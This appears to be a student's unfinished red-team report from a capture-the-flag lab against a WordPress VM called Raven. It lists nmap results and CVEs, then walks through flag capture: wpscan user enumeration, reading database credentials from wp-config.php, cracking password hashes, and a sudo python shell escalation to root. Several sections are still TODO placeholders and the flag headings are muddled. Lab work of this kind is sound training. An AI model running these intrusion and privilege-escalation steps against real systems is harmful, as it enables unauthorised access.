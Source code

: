 # offensive
final project offensive report
# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
_TODO: Fill out the information below._

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap ... nmap -sC -sV --reason -p 22,80,139,445 192.168.1.110
  
```
https://docs.google.com/document/d/1xZ8YLNCmJalc-poug1nDn4ppX0WbqnT4Pzn2QXe3ib0/edit?usp=sharing
This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22 SSH is open
  - port 80 HTTP is running (apache 2.4.10)
  - port 111 runing rpcbind
  - ports 139 and 445 have netbios-ssn/microsoft-ds 

The following vulnerabilities were identified on each target:
- Target 1
  - rpcbind - CVE-2017-8779
  - apache 2.4.10 -CVE-2017-7668, CVE-2017-3169




### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: _TODO: Insert flag1{b9bbcb33e11b80be759c4e844862482d}
    - **Exploit Used**
      - Using inspector tool on the 192.168.1.110/service.html page. 
      -
  - `flag2.txt`: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - Used "Wpscan --url http://raven.local/wordpress --enumerate u" to discover usernames for the website, then guessed at the password for user michael in order to SSH into webserver. Once in, flag2 was under var/www- `flag2.txt`: _TODO: Insert `flag2.txt` hash value_
    - **Exploit Used**
      - flag3{afc01ab56b50591e7dccf93122770cd2}
      - Cat out the wp-config.php file to find the mysql password: R@v3nSecurity.
      - Use the root:R@v3nSecurity to access the mysql db: mysql -u root -p
      - use wordpress > select * from wp_users: provides the flag.
    - **Exploit Used**
      - flag4{715dea6c055b9fe3337544932f2941ce}
      - ran john the ripper against the hashed versions of Michael and Steven's passwords to determine steven's. michael:$P$$8jRvZQ.VQcGZ1DeiKToCQd.cPw5XCe0
steven:$P$8kJVD9jsxx/loJoqNsURgHiaB23j7W/

      - Check sudo privledges with sudo -l. we have ability to use python
      - Using GTFObin and other resources for privledge escalation, sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’ works for us.
      - once operating as root, find flag3.txt
   
